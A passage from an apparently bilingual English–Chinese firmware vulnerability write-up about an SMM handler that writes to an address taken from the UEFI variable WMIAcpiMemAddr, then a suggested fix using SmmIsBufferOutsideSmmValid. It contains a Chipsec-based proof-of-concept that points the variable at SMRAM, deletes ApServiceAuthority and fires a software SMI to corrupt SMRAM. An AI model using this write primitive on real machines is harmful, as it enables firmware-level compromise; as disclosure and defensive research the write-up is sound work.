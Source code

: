 If the variable `ApServiceAuthority` exists and is zero, `fnResetWideString` will zero out the memory at pWMIAcpiMemAddr+0x79 (until it finds 0x0 0x0).  
如果变量 `ApServiceAuthority` 存在且为零， `fnResetWideString` 将清零 pWMIAcpiMemAddr+0x79 处的内存（直到找到 0x0 0x0）。

If the variable `ApServiceAuthority` does not exist, **” Access Denied”** will be written to pWMIAcpiMemAddr+0x79 via `fnWriteStatusToMemory`.  
如果变量 `ApServiceAuthority` 不存在，将通过 `fnWriteStatusToMemory` 向 pWMIAcpiMemAddr+0x79 写入 "拒绝访问"。

##### [#](#the-basic-exploit) The (Basic) Exploit  
# （基本）漏洞利用

Python pseudo-code using Chipsec:  
使用 Chipsec 的 Python 伪代码：

```
def smm_write(addr):
  status = self.cs.helper.set_EFI_variable(
    "WMIAcpiMemAddr",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    (addr - 0x79).to_bytes(8, "little"),
    8,
    7,
  )

  if status != 0:
    print("Failed to set WMIAcpiMemAddr!")
    exit(1)

  status = self.cs.helper.delete_EFI_variable(
    "ApServiceAuthority", "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9"
  )

  if status != 0:
    print("Failed to delete ApServiceAuthority!")
    exit(1)

// Set UEFI variable WMIAcpiMemAddr to SMRAM base
smm_write(0x4a000000)

// call handler to write " Access Denied" to SMRAM base
self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```

##### [#](#the-fix-1) The Fix  # 修复

*   EDK2 provides a method to validate if an address is outside of SMRAM - `SmmIsBufferOutsideSmmValid`. If the address is within the bounds of SMRAM, return.  
    EDK2 提供了一种方法来验证地址是否在 SMRAM 范围之外 - `SmmIsBufferOutsideSmmValid` 。 如果地址在 SMRAM 范围之内，则返回。

[#](#chaining-vulnerabilities-for-code-execution) Chaining Vulnerabilities For Code Execution  
# 利用漏洞链执行代码
-----------------------------------------------------------------------------------------------------------
